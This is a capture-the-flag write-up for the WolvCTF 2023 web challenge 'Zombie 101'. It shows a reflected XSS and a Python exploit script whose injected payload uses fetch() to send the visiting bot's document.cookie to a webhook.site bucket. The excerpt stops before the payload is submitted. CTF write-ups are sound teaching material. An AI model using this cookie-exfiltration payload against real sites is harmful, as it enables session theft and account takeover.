 ```yaml
---
author: vincentscode
ctf: wolv-ctf-2023
type: writeup
layout: post
title: Zombie 101 - 401
tags: web
---
```


We're presented with a simple webpage.

![Expression]({{ "/assets/images/2023-03-20 08-29-33.png" | relative_url }})

By submitting `<script>alert(1)</script>` to the first input we can see that it is not sanitized. This means we can inject arbitrary javascript into the page, making this an XSS vulnerabilty.

The user input is submitted as a url parameter like this: `https://zombie-101-tlejfksioa-ul.a.run.app/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`.

This url can be submitted through the second input field and a bot will look at it.

The webpage is the same for all versions of the challenge, only the config changes slightly.

## Zombie 101

For Zombie 101 the config is as follows:

{% raw %}

```json
{
  "flag": "wctf{redacted}",
  "httpOnly": false,
  "allowDebug": true
}
```

{% endraw %}

The config is used to construct a cookie that is set on the bot when it visits the page.

We can exploit it through the url with a simple XSS as discussed above, since the cookie is not httpOnly.

The most important part here is the `payload` variable, the rest just sets up a request bucket and retrieves the result from it.

{% raw %}

```python
import requests
import urllib.parse

# setup bucket
r = requests.post("https://webhook.site/token")
bucket_id = r.json()["uuid"]
bucket_url = f"https://webhook.site/{bucket_id}"

# execute exploit
visit_base = 'https://zombie-101-tlejfksioa-ul.a.run.app/visit?url='
show_base = 'https://zombie-101-tlejfksioa-ul.a.run.app/zombie?show='
payload = f"""
<script>
    fetch("{bucket_url}?cookie=" + document.cookie);
</script>
"""

```
